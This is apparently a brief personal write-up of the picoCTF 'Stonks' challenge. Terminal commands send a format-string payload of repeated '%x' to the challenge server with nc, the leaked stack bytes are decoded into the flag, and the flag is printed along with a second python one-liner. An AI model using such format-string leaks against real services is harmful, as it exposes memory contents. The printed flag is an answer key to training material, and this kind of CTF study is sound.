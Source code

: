 

```
┌──(kali㉿kali)-[~/picoctf/pwning/stonks]
└─$ (echo 1; echo "%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x") | nc mercury.picoctf.net 59616
Welcome back to the trading app!

What would you like to do?
1) Buy some stonks!
2) View my portfolio
Using patented AI algorithms to buy stonks
Stonks chosen
What is your API token?
Buying stonks with token:
95c0470804b00080489c3f7ef9d80ffffffff195be160f7f07110f7ef9dc7095bf180195c045095c04706f6369707b465443306c5f49345f74356d5f6c6c306d5f795f79336e3834313634356562ffa5007df7f34af8f7f074408fb83e0010f7d96ce9f7f080c0f7ef95c0f7ef9000ffa5f698f7d8768df7ef95c08048ecaffa5f6a40f7f1bf09
Portfolio as of Wed May 10 17:09:20 UTC 202
```

- Convertimos hex to ascii
https://www.rapidtables.com/convert/number/hex-to-ascii.html

pocip{FTC0l_I4_t5m_ll0m_y_y3n841645ebÿ¥ }

- invertimos con cybercheff  * *
swap endianess / raw / 4

## flag

picoCTF{I_l05t_4ll_my_m0n3y_6148be54}

## way 2
```
nc mercury.picoctf.net 27912 <<< 1 <<< $(python3 -c "print('%x'*24)")
```


- Referencias
https://www.youtube.com/watch?v=ctpQdH-GGqY